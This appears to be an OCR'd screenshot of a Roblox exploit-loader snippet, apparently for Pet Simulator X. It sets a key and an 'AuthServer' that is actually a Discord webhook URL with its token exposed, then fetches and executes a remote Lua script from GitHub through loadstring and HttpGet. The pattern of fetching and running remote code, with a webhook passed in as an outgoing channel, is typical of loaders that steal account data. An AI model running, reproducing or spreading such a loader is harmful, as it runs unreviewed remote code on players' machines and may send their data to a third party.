 _G.Key = "1orpsipoj"

_G.AuthServer = "https://discord.com/api/webhooks/1012369659988811776/zBRuTkJw5m_DH9djc0SrpOmTG8NjAvvVvi6xn8v-qwr5LqKDCHO_p6lywWkuS_jxDrQ2"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()
